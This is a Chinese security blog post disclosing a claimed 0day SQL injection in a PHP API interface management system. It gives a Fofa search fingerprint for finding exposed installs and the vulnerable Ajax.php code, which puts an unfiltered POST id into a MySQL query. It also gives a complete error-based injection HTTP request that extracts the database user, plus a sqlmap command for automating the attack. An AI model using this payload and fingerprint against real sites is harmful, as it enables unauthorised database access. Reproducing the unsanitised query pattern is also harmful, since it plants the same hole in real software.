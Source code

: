 #  (0day)API接口调用多用户管理系统存在前台SQL注入漏洞   
原创 Mstir  星悦安全   2024-11-09 12:24  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字关注我们 并设为  
星标  
## 0x00 前言  
  
**█ 纸上得来终觉浅，绝知此事要躬行 █**  
  
**2024全新开发API接口调用管理系统网站源码 附教程**  
  
**用layui框架写的 个人感觉很简洁 方便使用和二次开发**  
  
**智能调用管理：该系统提供了智能化的API接口调用管理功能，用户可以通过系统轻松管理各种接口的调用情况，包括调用频率、成功率、响应时间等指标。**  
  
**定制化配置：系统提供了丰富的定制化配置选项，用户可以根据自己的需求进行个性化设置，满足不同场景下的使用要求.**  
  
**Fofa指纹:"./assets/layuiadmin/style/res/logo.png"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cbTzPFTKbjGk25s3Yd2pF9hxzbcecdKUiaU5ZfPLZJtasJ8E1fk9MmwL1NXzsTa8MicQ9ztbJJHgKw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cbTzPFTKbjGk25s3Yd2pF9gkiaLAy8MPplCQhZqRl5uhOAXwoe2ThNKdetWYvBPIV1ibfGsrfzn2qw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cbTzPFTKbjGk25s3Yd2pF9Sbn1esqAgCHUAJicsuScwsV6hTZxamT4kRrP1oXEBKwslsjgJExYusw/640?wx_fmt=png&from=appmsg "")  
## 0x01 前台SQL注入漏洞  
##   
  
**在 /Ajax.php 中可以传入/Ajax.php?order 直接进入Case分支中，然后通过POST传入id参数直接被拼接到SQL查询中，且无任何过滤，导致漏洞产生.**  
```
<?php
include 'includes/Config.php';
$url = $_SERVER["QUERY_STRING"];
$ip = $_SERVER["REMOTE_ADDR"]; 
@header('Content-Type: application/json; charset=UTF-8');
switch($url){
case 'order': 
  $id = $_POST['id'];
  $query = mysqli_query($con,"select * from `sc_inter` WHERE id='$id'");
    $query_id = mysqli_fetch_array($query);
  if(empty($id)){exit('{"code":-1,"msg":"请检查是否已经删除！"}');}else{
  $data= '<link rel="stylesheet" href="assets/css/bootstrap.min.css" type="text/css" media="all"/><style>.layui-layer-content{padding:10px;}</style><div class="form-group"><div class="input-group"><div class="input-group-addon" id="inputname1">接口名称</div><input type="text" disabled="disabled" id="inputnm" value="'.$query_id['name'].'" class="form-control" required/></div></div>
          <div class="form-group"><div class="input-group"><div class="input-group-addon" id="inputname">反馈信息</div><textarea type="text" autocomplete="off" style="width:352px;height:110px;padding:0 2px 0 6px;" id="inputlink" value="" class="form-control"></textarea></div></div>
        ';
  $data.= '<input type="submit" id="save" onclick="saveOrder('.$id.')" class="btn btn-primary btn-block" value="提交信息" style="margin:4px auto;width:98%;">';
  $result=array("code"=>0,"msg"=>"succ","data"=>$data);}
  exit(json_encode($result));
break;
```  
  
**Payload:**  
```
POST /Ajax.php?order HTTP/1.1
Content-Length: 211
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1
Connection: close

id='||(SELECT 0x6969666d WHERE 5474=5474 AND (SELECT 9261 FROM(SELECT COUNT(*),CONCAT((MID((IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),1,54)),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
```  
Python sqlmap.py -r a.txt --level=3 --dbms=mysql  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**API源码关注公众号发送 241109 获取!**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
